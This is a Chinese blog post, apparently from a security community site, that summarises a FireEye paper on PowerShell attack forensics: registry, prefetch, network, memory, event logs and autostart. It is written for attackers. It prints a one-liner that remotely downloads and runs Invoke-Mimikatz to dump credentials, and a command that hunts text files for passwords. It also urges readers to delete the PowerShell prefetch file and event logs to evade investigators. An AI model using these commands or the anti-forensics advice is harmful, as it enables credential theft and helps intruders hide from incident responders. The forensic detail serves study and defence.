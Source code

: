 # powershell各种反弹姿势以及取证（二）

0x00 简介
=======

* * *

这篇主要是取证的，如果我以后技术好了，也会写写powershell在内网渗透中的实战应用，本文所有的内容基本翻译自fireEyE的`<<Investigating Powershell Attack>>`,我英文不好，有好多地方都看不懂他文章里写的，我磕磕碰碰的看完了这篇文章。有不对的地方，还请小伙伴们补充。

我们都知道，从`windows 7 sp1`和`windows server 2008 R2`开始，就已经默认安装了powershell(2.0版本)，到了`windows Server 2012 R2`和`Window 8.1`就是`powershell 4.0`了。现在用powershell编写的攻击框架也很成熟了，像上文书说的各种协议反弹的SHELL（nishang）；通过`dll loading`技术不写硬盘的，能远程dump登录账号明文的`Mimikatz（PowerSploit）`；以及在`ShmooCon 2013`安全会议上`Chris Campbell`演示的`Powershell Botnet`；还有各种搞windows域内网环境的powerview等；`SET/METASPLOIT`也开始支持powershell版的payloads。我们作为攻击者，也要熟悉现在针对powershell的取证技术，预防自己“艰难进来，轻松被T，却没带走一片云彩”。

原文文章分别从注册表，prefetch,网络流量，内存，日志，自启动这几方面来做取证的。

0x01 注册表：
=========

* * *

默认情况下，除了WinServer 2012R2 会设置`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell的ExecutionPolicy`项为RemoteSigned外，其他的windows系统都会设置为Restricted,有的攻击者为了运行powershell脚本方便，会设置此项为ByPass,但是这种情况并不多见，因为更多的情况是，攻击者使用-ExecuteionPolicy Bypass选项绕过执行策略限制。

0x02 Prefetch:
==============

* * *

Prefetch本意是为了增强系统的性能的，让应用程序下次载入的时候，节省时间。默认路径在`%systemroot%\prefetch`。取证人员常常会通过这些*.PF文件，获取程序最后运行时间，程序访问的文件列表等信息。取证人员有可能通过查看POWERSHELL.EXE-59FC8F3D.pf获取到你运行的攻击PS脚本信息。我这里用的[Prefetch Parser v1.4](http://redwolfcomputerforensics.com/downloads/parse_prefetch_info_v1.4.zip)来查看的，

如图

![enter image description here](http://drops.javaweb.org/uploads/images/118191573b7ec0093fae5c8d1ca84f1f48d9e35a.jpg)

所以每次我们用完powershell，记得`del %systemroot%\prefetch\POWERSHELL.EXE-59FC8F3D.pf`

0x03 网络流量：
==========

* * *

攻击者做内网渗透时，思路通常是先获取了工作组的administrator权限，然后渗透配置不严格的域环境，开启powershell的remoting功能，powershell 2.0的Remoting默认会走`5985(HTTP)`和`5986(HTTPS)`端口，文章里说，主要是监控内网<->内网，DMZ<->内网,VPN<->内网的异常数据流，建模识别出攻击者的非法访问，我想这里能做的，还是要熟悉内网环境，在有正常业务流的内网使用Remoting功能，其他办法我也没想到。

0x04 内存：
========

* * *

论文作者主要是说可以用`Volatility`框架分析`wsmprovhost.exe`进程，能够在内存空间看到XML格式的信息。比如这里他使用`PSSesion`远程交互式SHELL执行了`“echo "helloword" > c:\text.txt”,`然后就可以在`wsmprovhost.exe`的进程里看到信息，如图：

![enter image description here](http://drops.javaweb.org/uploads/images/226b8dfe2ebcb531988839db2f768f50ed86e3db.jpg)

但是这个方法随着远程会话的中止，也将不再有用，要想成功实现取证，需要攻击者正在操作。所以我感觉这个对我们的威胁不是很大。如果开启了winrm，也有可能在`svchost.exe`的进程里看到信息。他这里用的是`Invoke-Mimikatz`做的演示，远程通过下载在内存里执行，DUMP明文密码，不写硬盘，这个渗透技巧实战的时候很有用，命令如下：

```
Invoke-Command -Computername 192.168.114.133 {iex((New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')); Invoke-Mimikatz -DumpCreds}

```

如下是他在svchost.exe进程内存里抓到的信息

![enter image description here](http://drops.javaweb.org/uploads/images/74f823167a5b527f419d52d5391aaed7c75fc463.jpg)

0x05 日志：
========

* * *

Powershell 2.0的默认日志功能还不是很强，powershell 3.0后有所增强，不论是你本地还是通过Remoting执行powershell脚本，都会在下面3个文件里写入日志`%systemroot%\System32\winevt\`

```
windows powershell.evtx

```

每次powershell开始执行`EID 400`或者结束`EID 403`的时候，都会记录。里面的HostName项如果是`ConsoleHost`说明是从本地执行的，反之，是对方的机器名

```
Microsoft-Windows-PowerShell%4Operational.evtx

```

`Microsoft-Windows-power-Shell%4Analytic.etl`[我机器上没有找到这个文件]

如果通过WINRM开启了remoting功能，还会有下面2个日志：

```
Microsoft-Windows-WinRM%4Operational.evtx

```

EID 6会记录remoting的客户端地址信息，在这里可能看到是谁连过来的

```
Microsoft-Windows-WinRM%4Analytic.etl

```

`EID 32850`会记录`remoting`客户端连接过来使用的账号信息`EID 32867/32868`里面有可能会看到当`Invoke-Command`执行命令的时候的细节，如图

![enter image description here](http://drops.javaweb.org/uploads/images/4f7f7c5db316777b743c046f7039261764465352.jpg)

另外随着Microsoft APPLocker的引用，管理员能够对powershell脚本进行更进一步的验证，比如允许哪个PS脚本运行，哪个不允许，甚至禁止掉计算机上全部PS脚本的执行权限等操作，但是这些对我们来说都有已知的技术能绕过，我下回书再说。`AppLocker`功能启用后，`EID 8005`和`EID 8006`会记录认证信息的日志。

作者也提到可以通过`%windir%\system32\WindowsPowerShell\v1.0\profile.ps1`设置全局的profile,来增加额外的日志记录，他这里说可以用-NoProfile来绕过，上文书我实践过，发现是不可以的，参考上文，这里不多提了。

Powershell 3.0引入了`Module Logging`的能力，可以通过组策略开启`（Computer Configuration → Administrative Templates →Windows Components →Windows PowerShell →Turn on Module Logging）`，开启后，可以在EID 4103里看到ps脚本执行后的结果，比如我执行

```
Get-ChildItem c:\temp -Filter *.txt -Recurse | Select-String password

```

意思是搜索`C:\`下所有TXT里包含password的文件，可以在`EID 4103`里看到返回结果，如图

![enter image description here](http://drops.javaweb.org/uploads/images/036889981005c200f3de7dbf4cec506e05506d4f.jpg)

甚至Invoke-Mimikatz执行的结果也会记录，如图

![enter image description here](http://drops.javaweb.org/uploads/images/1e66670bf5167dcb25f57d4fde39b95e29e09040.jpg)

再次提醒我们，该删日志，一定要删，外面应该有能删指定日志的工具了，不过我没见到，有的发我一份。

0x06 自启动：
=========

* * *

Powershell经常通过注册表，开始菜单，或者计划任务来实现自启动的目的，通常用sysinternals的autorun就能找到了。另外`C:\Users\<USERNAME>\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1`可以达到和`C:\Windows\System32\WindowsPowerShell\v1.0\profile.ps1`一样的效果。

**_文章参考：_**

https://www.blackhat.com/docs/us-14/materials/us-14-Kazanciyan-Investigating-Powershell-Attacks-WP.pdf

https://www.defcon.org/images/defcon-22/dc-22-presentations/Kazanciyan-Hastings/DEFCON-22-Ryan-Kazanciyan-Matt-Hastings-Investigating-Powershell-Attacks.pdf